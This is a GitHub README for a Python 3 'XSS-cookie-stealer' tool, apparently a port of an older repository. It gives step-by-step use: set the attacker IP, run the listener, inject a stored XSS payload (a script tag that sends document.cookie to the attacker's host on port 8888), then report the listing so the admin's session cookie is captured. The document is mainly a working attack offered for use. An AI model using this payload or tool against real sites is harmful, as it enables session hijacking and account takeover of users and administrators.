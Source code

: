# XSS-cookie-stealer.py
I recreated it with Python 3 because it is a very old repository. The original author of this is @R0B1NL1N at github.com.



This is my circumstance, and I have the option of reporting to the admins button!, but there are a lot of other uses as well.

# How to use
1- Change IP address in the script.

![image](https://user-images.githubusercontent.com/102862377/203699668-456c24c0-4f15-4f12-a6c5-166f6089fa44.png)


2- Run the script.

`python3 XSS-cookie-stealer.py`

![image](https://user-images.githubusercontent.com/102862377/203699097-d805bf19-0ced-43f7-a9e6-f2dda7cfa813.png)

3- Create a new listing and enter the exploit script.

`<script>var i=new Image;i.src="http://(Your IP):8888/?"+document.cookie;</scirpt>`

![image](https://user-images.githubusercontent.com/102862377/203699802-2ec5643e-2717-4cd2-ab53-40b8dbf2c8af.png)

4- As soon as we submit, we should see our cookie appear on the http server running on our attack machine:

![image](https://user-images.githubusercontent.com/102862377/203699868-ab19e552-34e9-4aeb-9754-f34ad2b04ccb.png)

5- Let’s now click on the link and report listing to the admins:

![image](https://user-images.githubusercontent.com/102862377/203699911-513801f2-ebae-43fa-8127-80d6a6c56314.png)

6- Click ‘Report’ button and we should see the admin cookie appear on our http server:

![image](https://user-images.githubusercontent.com/102862377/203699989-a56ea191-92a7-4149-9781-6b286573e2a0.png)


